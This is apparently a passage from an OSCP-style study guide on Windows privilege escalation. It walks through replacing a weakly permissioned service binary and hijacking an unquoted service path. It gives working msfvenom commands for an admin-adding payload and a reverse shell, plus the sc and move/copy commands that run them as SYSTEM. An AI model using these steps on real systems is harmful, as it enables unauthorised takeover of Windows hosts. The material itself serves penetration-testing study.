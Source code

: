 ```{=html}
<!-- -->
```
-   **Service Binary Replacement (Weak Service Permissions):** --
    *Scenario:* A service running as SYSTEM has an executable in a path
    that you can write to (you confirmed with icacls or AccessChk that
    you have Full access on the .exe). Example: ServiceName =
    \"VulnService\", Path = `C:\Program Files\Vuln\service.exe`, and
    `C:\Program Files\Vuln\service.exe` has Users:F permission.\
    **Commands:**

-   Prepare a malicious EXE. For instance, on Kali use
    `msfvenom -p windows/x64/exec CMD="net localgroup administrators <yourUser> /add" -f exe -o hijack.exe`.
    This payload when run will add your low-priv user to the
    Administrators group (as a simple escalation). Or choose to pop a
    reverse shell. Transfer `hijack.exe` to the target, e.g. as
    `C:\Users\Public\hijack.exe`.

-   Stop the service (if you have rights): `sc stop VulnService` (or use
    `net stop`). If you cannot stop it, sometimes a reboot will start
    your payload if you replaced it -- but rebooting is risky in exam.
    Let's assume you can stop it or the service is not running
    continuously.

-   **Replace the binary:** Rename the original `service.exe` to
    `service.exe.bak` (just in case) and move your `hijack.exe` into its
    place:

```{=html}
<!-- -->
```
-   move C:\Program Files\Vuln\service.exe C:\Program Files\Vuln\service.exe.bak
        copy C:\Users\Public\hijack.exe "C:\Program Files\Vuln\service.exe"

```{=html}
<!-- -->
```
-   Start the service: `sc start VulnService` (or
    `net start VulnService`).\
    **Explanation:** When the service starts, it will execute your
    `service.exe` (which is actually your payload) as
    SYSTEM[\[28\]](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html#:~:text=NT%20AUTHORITY)[\[30\]](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html#:~:text=Restart%20the%20Service).
    If the payload adds you to Administrators, you can then re-login as
    an admin or use any admin action to confirm. If it's a reverse
    shell, you'll get a SYSTEM shell back on Kali. This is one of the
    most straightforward and reliable methods if available. *Note:* Some
    services auto-restart on failure, so even if you can\'t stop it
    gracefully, you might crash it and hope the service controller
    restarts it (not elegant, though).

-   **Unquoted Service Path (Path Hijack):** -- *Scenario:* A service
    has an unquoted path with a space, e.g.
    `C:\Program Files\Unquoted Path Service\Common Files\UnquotedService.exe`.
    You cannot modify the service or binary directly, but you *can*
    create files in `C:\` or `C:\Program Files\Unquoted Path Service\`
    which are writable.\
    **Commands:**\
    Let's say `C:\` is writable by Users (often it is not, but sometimes
    in CTFs it might be). You would create an executable at
    `C:\Program.exe`. For example, use the same `hijack.exe` from above
    or a simpler
    `msfvenom -p windows/shell_reverse_tcp ... -f exe -o Program.exe`.
    Place this in `C:\`. Then restart the vulnerable service (or wait
    for reboot).\